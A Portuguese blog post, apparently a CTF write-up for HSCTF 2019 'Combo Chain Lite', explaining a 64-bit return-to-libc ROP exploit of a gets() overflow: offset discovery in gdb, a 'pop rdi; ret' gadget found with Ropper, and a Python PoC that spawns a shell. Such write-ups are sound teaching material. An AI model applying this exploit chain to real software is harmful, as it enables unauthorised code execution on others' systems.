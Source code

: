 ```yaml
---
layout: post
title: Combo Chain Lite - [HSCTF 2019] - Return to libc x64
date: 2019-06-12 18:22
author: obrerodrigues
comments: true
categories: [CTFs]
tags: [Sem Categoria, exploits, rop]
---
```

Não consigo me recordar da descrição desse desafio mas citava algo com ROP (Return Oriented Programming). O achei divertido porque me relembrou das diferenças entre explorar um binário 32bits e um 64.

Antes de tudo, uma analisada no código fonte:
<script src="https://gist.github.com/brerodrigues/305d2fbf300852c17ba8eeab38391e96.js"></script>

Tava na cara que a linha 10 da função *vuln* ia estourar o espaço reservado para a variável *dest* se alguém passasse mais de 8 chars quando *gets* pedisse input do usuário. Um clássico buffer overflow.

No gdb, não foi necessária muita mágica para descobrir o quanto de espaço era preciso para sobreescrever o endereço de retorno da função:

```
run <<< $(python -c 'print "A"*16 + "BBBB"')
```

16 A's e 4 B's resultaram nisso:

```
Stopped reason: SIGSEGV
0x0000000042424242 in ?? ()
```

0x42, o programa tentou retornar para belos e maisculos B's.

Já desconfiava e tive certeza quando rodei o comando *checksec* e vi o bit NX setado. Nada de executar shellcode na stack dessa vez (o que não é SEMPRE impossível quando esse bit estiver setado, falo mais sobre isso um dia).

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

Como visto no codigo fonte, o binário imprime o endereço de *system* a cada execução:

```
b@b ~/h> ./combo-chain-lite 
Here's your free computer: 0x7ffff7a33440
Dude you hear about that new game called /bin/sh? Enter the right combo for some COMBO CARNAGE!: 
```

Com o endereço da função system e um argumento bem localizado na stack, a gente consegue fazer system executar o comando */bin/sh*. Não se preocupe, vou explicar isso melhor.

O binário ajuda novamente e tem exatamente essa string passeando na memória. Conseguimos encontra-la usando o comando *find "/bin/sh"* no peda. Mas antes é necessário executar o programa, por isso setei um breakpoint em main.

```
gdb-peda$ b *main
Breakpoint 1 at 0x4011bf
gdb-peda$ run
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 3 results, display max 3 items:
combo-chain-lite : 0x402051 --> 0x68732f6e69622f ('/bin/sh')
combo-chain-lite : 0x403051 --> 0x68732f6e69622f ('/bin/sh')
            libc : 0x7ffff7b97e9a --> 0x68732f6e69622f ('/bin/sh')
```

Ah, com o endereço de system e bin/sh achei que bastava fazer o que fiz no [level6 do narnia](https://brerodrigues.github.io/ctfs/favorites/level-6-return-to-libc-overthewire-ctf-narnia-write-up). Se você não faz ideia do que é Return Oriented Programming, recomendo que passe lá, explico com uma maior paciência os detalhes sórdidos.

```
b@b ~/h> file combo-chain-lite 
combo-chain-lite: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c56cc6916b1933494d1cc55ae82dcaf1cdf6693d, for GNU/Linux 3.2.0, not stripped
```

Mas não era tão simples quanto em narnia. A diferença é que o binário é um ELF 64-bits. 
Após erroneamente tentar explorar a falha jogando o endereço de /bin/sh na stack e chamando system, percebi minha viagem.

Na arquitetura 64 bits uma função não recebe, simplesmente, parâmetros via stack. Primeiro eles são passados usando os registradores. E não é de qualquer jeito, existe uma ordem:
1.  RDI
2.  RSI
3.  RDX
4.  RCX
5.  R8
6.  R9

E a stack só é utilizada se houver a necessidade de mais parâmetros.

Sabendo que system precisa apenas de um parâmetro, que é o comando que será executado, seria só questão de passar o endereço de /bin/sh para RDI e pwned. Como fazer isso? Return Oriented Programming.

Sem a possibilidade de executar nosso próprio código, ROP dá a ideia de usar o código disponível no binário (chamam esses pedaços de código de *gadgets*) para manipular a memória do programa e executar o que queremos. Minha primeira tentativa, usando uma técnica conhecida como *Return-to-libc*, nada mais é do que Return Oriented Programming. É uma explicação rasa, no final do post deixarei uns links que vão mais a fundo.

Voltando ao desafio: como mandar o endereço de /bin/sh para RDI? Era necessário executar uma instrução que pegasse esse endereço da stack, tipo POP RDI, e depois o programa teria que chamar system.

Não é qualquer POP RDI que posso usar porque depois de pular para essa instrução, a execução vai continuar nos endereços seguintes. Não adianta fazer um POP RDI e logo depois vir um CALL printf e etc porque foderia com minha stack e o programa ia dar crash e nunca daria uma shell. Aí que entra o conceito de gadgets: um gadget, normalmente, é uma instrução acompanhada de um RET, que é a instrução que vai pegar da stack o endereço da próxima instrução a ser executada. Logo, pegando gadgets, a gente pode inserir na stack os endereços um após o outro e o programa vai sair executando ordenadamente feliz da vida. 
Fica tipo assim na stack: gadget1->gadget2->gadget3... E a execução fica: gadget1: POP RDI, RET -> gadget2: POP RSI, RET -> gadget3: POP RDX, RET... 

Para encontrar instruções aptas para fazer essa mágica usei uma bela ferramente chamada [Ropper](https://github.com/sashs/Ropper). Ele automatiza essa busca.

Com o comando *./Ropper.py --file ../combo-chain-lite --search "% ?di"* recebo uma lista de gadgets que fazem operações com RDI ou EDI (por isso a "%?di" na busca). Vem uma caralhada de opções e em meio a elas encontro a perfeita:

```
0x0000000000401273: pop rdi; ret; 
```

Executando esse conjunto de instruções eu jogo algo da stack para RDI e retorno para a stack, onde vai ter o endereço da função system que irá ser chamada e achará em RDI o endereço de /bin/sh.

Meu exploit ficará alinhado na stack nessa ordem:
```
0x0000000000401273: pop rdi; ret; 
0x402051: /bin/sh
0x7ffff7a33440: system
```

Alterei minha rápida e nojenta PoC feita em python para formatar bonitinho os endereços e jogar num arquivo. Daí era só executar e passar como entrada para o binário e ganhar uma shell.

```
from struct import *

buf = ""
buf += "A"*16
buf += pack("<Q", 0x0000000000401273)       # pop rdi; ret;
buf += pack("<Q", 0x402051)                 # pointer to "/bin/sh" gets popped into rdi
buf += pack("<Q", 0x7ffff7a33440)           # address of system()

f = open("exploit", "w")
f.write(buf)
```

O segundo cat é para manter stdin aberta. Sem ele system chama /bin/sh e fecha logo depois.

```
$ (cat in.txt; cat) | ./combo-chain-lite 
Here's your free computer: 0x7ffff7a33440
Dude you hear about that new game called /bin/sh? Enter the right combo for some COMBO CARNAGE!: 
uname -a
Linux b 4.15.0-38-generic #41-Ubuntu SMP Wed Oct 10 10:59:38 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

Para explorar no CTF fiz um scriptizinho mais bonito. Usando o pwntools e tudo. Facilitou na hora de pegar o endereço de system que o binário manda na primeira linha. Pode observar na linha 12.

<script src="https://gist.github.com/brerodrigues/793458dddfdf3a18336302a1313b94f1.js"></script>

Links:
1. https://ctf101.org/binary-exploitation/return-oriented-programming/
2. https://blog.techorganic.com/2015/04/21/64-bit-linux-stack-smashing-tutorial-part-2/
